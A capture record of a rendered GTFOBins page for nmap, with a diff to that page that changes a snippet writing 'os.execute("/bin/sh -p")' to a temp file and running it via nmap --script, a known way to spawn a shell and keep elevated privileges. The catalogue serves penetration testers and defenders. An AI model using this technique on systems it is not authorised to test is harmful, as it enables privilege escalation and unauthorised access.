

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 900 px high, scrolled down 2103 px. Shown: the part 696-872 px from the top of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -86,6 +86,6 @@ functions:
     - description: Input echo is disabled.
       code: |
         TF=$(mktemp)
-        echo 'os.execute("/bin/sh -p")' > $TF
+        echo 'os.execute("/bin/sh")' > $TF
         ./nmap --script=$TF
 ---
```
